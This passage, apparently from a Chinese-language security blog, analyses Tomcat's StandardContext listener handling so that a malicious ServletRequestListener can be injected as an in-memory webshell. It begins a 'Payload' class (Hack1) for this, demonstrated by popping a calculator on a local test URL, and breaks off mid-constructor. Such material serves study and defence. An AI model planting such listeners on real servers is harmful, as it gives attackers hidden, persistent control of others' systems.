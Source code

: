 如上所示，addApplicationEventListener 方法直接添加 listener 到 applicationEventListenersList 中，而 getApplicationEventListeners 方法则返回 applicationEventListenersList.  

在这里额外提一下，其实在 StandardContext.listenerStart 方法中可以观察到存放总的 listener 变量 eventListeners 除了来自于我们添加的恶意 applicationEventListenersList 外，还主要来自于 lifecycleListener 也就是 @WebListener注解 或 Web.xml，不过这是人家开发者用的因此笔者就暂时不对那个点进行详细分析了，黑客们只管 applicationEventListenersList 就行了

我们继续跟进 getApplicationEventListeners，直接来到事件 Init 方法即 fireRequestInitEvent 

```java
//源码分析
public class StandardContext extends ContainerBase implements Context, NotificationEmitter {
    //出现 request 时，启动 Request 初始化事件方法
    public boolean fireRequestInitEvent(ServletRequest request) {
        //获取 applicationEventListenersList，instances 即为 listeners
        Object[] instances = this.getApplicationEventListeners();
        //若存在 listeners 且 listeners 不为空
        if (instances != null && instances.length > 0) {
            //创建基于 ServletContext 和 request 的 ServletRequestEvent
            ServletRequestEvent event = new ServletRequestEvent(this.getServletContext(), request);
            Object[] var4 = instances;
            // var5 变量即为 listeners 的长度
            int var5 = instances.length;
            //遍历所有 listener
            for(int var6 = 0; var6 < var5; ++var6) {
                //instance 为当前遍历到的 listener 实例
                Object instance = var4[var6];
                if (instance != null && instance instanceof ServletRequestListener) {
                    //将 instance 转换为 listener 类型
                    ServletRequestListener listener = (ServletRequestListener)instance;

                    try {
                        //调用 listener 的 requestInitialized 方法，并将刚刚创建的 ServletRequestEvent 传入
                        listener.requestInitialized(event);
                    } catch (Throwable var10) {
                        ...[错误处理]...
                    }
                }
            }
        }

        return true;
    }
}
```

如上所示，在触发 fireRequestInitEvent 后，其遍历 listeners 并根据相应条件调用 requestInitialized

这里对于 listeners 的处理分析流程暂时告一段落，关于 listener 的其他流程和事件响应笔者后续再更新

这里我们根据刚刚分析的 ServletRequestListener.requestInitialized 直接写Payload，加载内存马后访问`http://127.0.0.1:8003/*?calc=1`直接弹出计算器
  
```java
//Payload
import org.apache.catalina.Context;
import org.apache.catalina.core.StandardContext;
import java.lang.reflect.InvocationTargetException;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class Hack1 {
    public Hack1(Context context) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException {
        ServletRequestListener requestListener = new ServletRequestListener() {
            @Override
```